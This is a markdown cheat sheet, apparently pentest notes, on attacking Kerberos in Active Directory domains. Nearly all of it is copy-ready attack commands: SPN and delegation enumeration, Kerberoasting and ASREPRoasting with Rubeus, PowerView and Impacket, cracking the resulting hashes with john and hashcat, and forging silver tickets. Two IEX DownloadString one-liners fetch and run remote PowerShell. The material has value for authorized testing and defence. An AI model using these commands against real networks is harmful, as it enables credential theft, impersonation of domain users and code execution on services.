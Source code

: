 # Kerberos Info Gathering
## Query SPNs
**CMD.exe**   
Using cmd.exe: (The following example searches all SPNs in the domain from MSSQL servers)   
`setspn -Q MSSQLSvc/*`   
Using cmd.exe on a foreign domain: (The following example searches for Hyper-V related SPNs)   
`setspn -Q *hyper*/* -T <domainname>`   
Note: setspn command generates alerts from MDI!   

**Native PowerShell**   
```
$search = [adsisearcher]"(&(sAMAccountType=805306368)(servicePrincipalName=*))"
$search.PageSize = 10000
$spnusers = $search.FindAll()
```   
**BloodHound**   
Using BloodHound: (list all user accounts with an SPN)   
`MATCH (u:User {hasspn:true}) RETURN u`   
You can even expand the BloodHound query to include pathes to computers from these accounts:   
`MATCH (u:User {hasspn:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p`   

## Get Kerberos Delegation Accounts
Requires AD Modules:   
`Get-ADObject -filter { (UserAccountControl -BAND 0x0080000) -OR (UserAccountControl -BAND 0x1000000) -OR (msDS-AllowedToDelegateTo -like '*') } -prop Name,ObjectClass,PrimaryGroupID,UserAccountControl,ServicePrincipalName,msDS-AllowedToDelegateTo`   

# Kerberos Ticket
Get krb ticket for user with known password (e.g. via socks proxy):   
`.\Rubeus.exe asktgt /user:jdoe /password:<CUT> /domain:lab.local /dc:10.0.0.4 /ptt`   
Using native Powershell:   
```Powershell
PS C:\> Add-Type -AssemblyName System.IdentityModel  
PS C:\> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/websrv.domain.local"
```
Get Kerberos ticket for provided SPN into current users kerberos ticket cache (using lolbin):    
```
klist get http/server1.testlab.local
```
# Kerberos Attacks
## Kerberoasting
### From Windows
Against single user using Rubeus.exe:   
`.\Rubeus.exe kerberoast /user:svc_mssql /nowrap`   
Against single SPN, using base64 kirbi which was obtained via asktgt (Note: portnumber in spn - e.g. MSSQLSvc/server1.lab.local,1433 - seems to break Rubeus):   
`.\Rubeus.exe kerberoast /spn:"SPN" /nowrap /domain:windomain.local /dc:10.0.2.3 /ticket:doIFMD[...]`   

Using native PowerShell:
```powershell
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/websrv.domain.local"  
```
Using Powerview:   
``` 
IEX ((New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1"))
Request-SPNTicket -SPN "<SPN>" -Format Hashcat
```     
Using Invoke-Kerberoast:    
`IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -OutputFormat Hashcat`   
Single ticket from Invoke-Kerberoast:   
`Get-DomainSPNTicket -SPN "HTTP/SA-SPS" -OutputFormat Hashcat`   

Get ticket using klist:   
`klist get <SPN>`   

### From Linux
Using GetUserSPN.py:   
`python3 GetUserSPNs.py domain.local/user1:p@ssw0rd -dc-ip 192.168.1.11 -request-user targetserviceuser`   
Kerberoast all SPNs (NOT OPSEC!!!):   
`proxychains GetUserSPNs.py windomain.local/user:Password123 -dc-ip 192.168.1.12 -request`   
Another tool:   
 - https://github.com/ShutdownRepo/targetedKerberoast   

### Cracking
`john --format=krb5tgs --wordlist=wordlist svc_mssql`   
`hashcat -a 0 -m 13100 svc_mssql wordlist`   

## ASREPRoast 
Query accounts for "do not require Kerberos pre-authentication":   
`([adsisearcher]"(&(sAMAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))").FindAll()`   
Find such users in BloodHound:   
`MATCH (u:User {dontreqpreauth:true}) RETURN u`   

If accounts do not require kerberos pre-authentication, the tool GetNPUsers.py can be used to do ASREPRoasting:   
`GetNPUsers.py -request domain.local/someaccount:`   

On Windows:   
`.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast`   
`Get-ASREPHash -Username someuser123 -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)`   

### Cracking
`john --wordlist=passwords_kerb.txt hashes.asreproast`   
`hashcat --attack-mode 0 --hash-type 18200 hashes.asreproast /srv/wordlists/uncompressed/crackstation-human-only.txt --rules-file /srv/rules/nsa_500.txt`   

## Silver Ticket Attack
If you have the plaintext password or the NT hash of a service account, you can create Kerberos Service tickets for this service in the name of any user (as long as PAC validation is not enabled).

### Linux
```
ticketer.py -nthash 077CCCC23F8AB7031BEEFB70C694A49 -domain-sid S-1-5-21-875478684-1579768486-654964636 -domain dumpsterfire.local -spn MSSQLSvc/server.dumpsterfire.local:SQLINSTANCE1 targetuser
export KRB5CCNAME=/home/kali/targetuser.ccache
```
Use with e.g.:
`mssqlclient.py dumpsterfire.local/targetuser@server.dumpsterfire.local -k -no-pass`

### Windows
```
.\Rubeus.exe silver /service:MSSQLSvc/server.dumpsterfire.local /rc4:077CCCC23F8ABEEF26A3B70C694A49 /sid:S-1-5-21-875478684-2579768486-654964636 /user:targetuser /domain:dumpsterfire.local /ptt 
```
With `/ptt` the ticket is automatically imported into the local Kerberos cache and can be used to connect to the target service.

# Other stuff
Change user or groups in Kerberos ticket, Crack requested service tickets:   
https://github.com/nidem/kerberoast/   

## SPNs which can be used for code exec
```
MSSQLSvc -> xp_cmdshell
TERMServ -> RDP 
WSMAN+HTTP -> PS remoting
HOST+HTTP -> WinRM
HOST -> Task scheduler
CIFS -> psexec, etc. (SMB)
```
